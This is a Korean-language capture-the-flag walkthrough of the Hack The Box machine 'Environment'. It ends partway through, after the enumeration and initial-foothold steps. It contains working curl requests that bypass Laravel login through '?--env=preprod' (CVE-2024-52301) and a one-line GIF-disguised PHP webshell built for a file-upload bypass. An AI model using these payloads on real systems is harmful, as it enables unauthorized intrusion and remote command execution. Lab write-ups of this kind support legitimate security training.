










# Environment

## Overview

Laravel 기반 마케팅 관리 웹 서비스에서 동작하는 Linux 머신이다. 공격 체인은 다음과 같다. CVE-2024-52301을 통해 Laravel의 환경 변수 조작으로 인증을 우회하여 관리 대시보드에 진입하고, CVE-2024-2154를 이용해 GIF 매직 바이트와 파일명 끝점을 활용한 PHP 웹쉘 업로드로 `www-data` 권한의 리버스 쉘을 획득한다. 이후 노출된 GPG 개인키로 암호화된 백업 파일을 복호화하여 `hish`의 SSH 크리덴셜을 탈취하고, 최종적으로 `sudo`의 `BASH_ENV` 환경변수 보존 설정을 악용하여 root 권한까지 상승한다.

---

## Target Information

| 항목 | 내용 |
|------|------|
| 머신 이름 | Environment |
| OS | Debian Linux |
| IP | 10.129.x.x |
| 난이도 | Medium |
| 주요 취약점 | CVE-2024-52301 (Laravel 환경 조작), CVE-2024-2154 (파일 업로드 우회), GPG 키 노출, BASH_ENV 권한 상승 |
| 주요 기술 | Laravel 환경 우회, PHP 웹쉘, 매직 바이트 우회, GPG 복호화, sudo 환경변수 악용 |

---

## Enumeration

### TCP Port Scan

```bash
nmap -sC -sV 10.129.x.x
```



열린 포트는 두 개다.

| 포트 | 서비스 | 버전 |
|------|--------|------|
| 22/tcp | SSH | OpenSSH 9.2p1 Debian 2+deb12u5 |
| 80/tcp | HTTP | nginx 1.22.1 |

HTTP 서버는 `http://environment.htb`로 리다이렉트한다. 로컬 DNS 설정이 필요하다.

```bash
echo "10.129.x.x environment.htb" | sudo tee -a /etc/hosts
```

### Web Enumeration

`http://environment.htb`에 접속하면 환경 보호를 주제로 한 홈페이지가 표시된다. 메일링 리스트 가입 폼만 존재하며 로그인 페이지는 노출되어 있지 않다. 응답 쿠키에서 `XSRF-TOKEN`과 `laravel_session`이 확인되어 Laravel 프레임워크가 사용됨을 파악할 수 있다.



```bash
gobuster dir -u http://environment.htb \
  -w /usr/share/wordlists/dirb/common.txt \
  -x php,html
```




| 경로 | 상태 코드 | 비고 |
|------|-----------|------|
| /login | 200 | 로그인 페이지 |
| /logout | 302 | 세션 없으면 /login으로 리다이렉트 |
| /storage | 301 | 파일 저장소 |
| /vendor | 301 | Laravel 라이브러리 디렉토리 |
| /up | 200 | Laravel health check |

`/login`에 접속하면 이메일과 패스워드를 입력받는 Marketing Management Portal 로그인 폼이 표시된다.



---

## Initial Foothold

### CVE-2024-52301 — Laravel 환경 조작을 통한 인증 우회

Laravel은 URL 쿼리스트링의 `--env` 파라미터를 Artisan CLI 옵션으로 해석하여 로드할 환경 설정 파일을 변경할 수 있다. `?--env=preprod`를 URL에 추가하면 Laravel이 `.env.preprod` 파일을 로드하고, 해당 파일의 설정에서 인증 로직이 우회된다. 이 취약점은 크리덴셜을 맞추는 것이 아니라 환경 자체를 전환하여 인증 절차를 건너뛰는 방식이다.

`--env` 파라미터는 POST body가 아닌 URL 쿼리스트링에 포함해야 하며, CSRF 토큰은 반드시 동일한 `?--env=preprod` 환경으로 GET 요청하여 발급받은 토큰을 사용해야 한다.

```bash
TOKEN=$(curl -s -c /tmp/env.txt "http://environment.htb/login?--env=preprod" \
  | grep -o 'value="[^"]*" autocomplete' | head -1 | cut -d'"' -f2)

curl -s -X POST "http://environment.htb/login?--env=preprod" \
  -b /tmp/env.txt -c /tmp/env.txt \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "_token=$TOKEN&email=admin%40environment.htb&password=admin&remember=True" \
  -D - -o /dev/null | grep "Location"
```



`Location: http://environment.htb/management/dashboard`로 리다이렉트되어 인증 우회가 성공했음을 확인한다.

브라우저에서는 Burp Suite를 활용하여 로그인 POST 요청을 인터셉트한 뒤 첫 줄을 `POST /login?--env=preprod HTTP/1.1`로 수정하고 Forward한다.





대시보드에 진입하면 메일링 리스트와 Profile 메뉴가 표시된다. 로그인된 계정 정보는 `hish@environment.htb`다.

### CVE-2024-2154 — PHP 웹쉘 업로드

Profile 페이지에서 프로필 이미지를 업로드하는 기능이 있다. 서버는 업로드된 파일의 Content-Type 헤더와 파일 내용 앞부분의 매직 바이트를 검사하여 이미지 파일 여부를 판별한다.



파일 검증을 우회하기 위해 두 가지 기법을 조합한다. 첫 번째로 GIF 매직 바이트(`GIF89a`)를 PHP 코드 앞에 삽입하여 서버의 파일 내용 검사를 통과시킨다. 두 번째로 파일명 끝에 점을 추가(`shell.php.`)하여 확장자 필터를 우회한다. Linux 파일시스템은 파일명 끝의 점을 자동으로 제거하므로 서버에는 `shell.php`로 저장된다.

```bash
printf 'GIF89a<?php system($_GET["cmd"]); ?>' > /tmp/shell.php
```

정상 이미지 업로드 요청을 Burp Suite로 인터셉트하여 Repeater로 전송한 뒤 파일 내용과 파일명, Content-Type을 수정한다.


